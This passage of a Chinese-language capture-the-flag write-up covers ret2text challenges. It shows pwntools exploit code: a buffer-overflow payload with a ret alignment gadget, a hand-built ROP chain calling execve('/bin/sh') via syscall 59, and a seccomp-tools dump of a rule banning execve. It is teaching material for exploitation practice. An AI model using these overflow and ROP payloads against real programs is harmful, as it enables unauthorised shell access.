 面对这种情况，只需要在我们的 ROP 链前面加一句 ret 即可：

```python
# ===========exp starts===========
ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(0x40118c)
#  payload += p64(ret_addr)
payload += p64(0x00000000401196)
#  payload += p64(elf.symbols['gift'])
s(payload)
# ===========exp ends=============
```

## 这下没有 gift 了

没有 gift 函数，意味着我们要自己想办法构造出能够 getshell 的 ROP 链，参考我们之前编写过的 shellcode，只需要把相同的思路用 ROP 链的形式写一遍，其中 59 是 SYS_execve 的系统调用号：

```python
# ===========exp starts===========
syscall_ret = 0x0000000000416f34
pop_rdi_ret = 0x00000000004018c2
pop_rsi_ret = 0x000000000040f1fe
pop_rdx_ret = 0x00000000004017cf
pop_rax_ret = 0x0000000000449337
#  str_bin_sh  = next(elf.search(b"/bin/sh\x00"))
str_bin_sh  = 0x00495004

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(pop_rdi_ret) + p64(str_bin_sh)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(59)
payload += p64(syscall_ret)
s(payload)
# ===========exp ends=============
```

## 还能 getshell 吗

第四问题目中加了禁用 execve 的限制，可以用 seccomp-tools 来进行检测：

```shell
❯ seccomp-tools dump ./ret2text-rev-rev-rev
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```
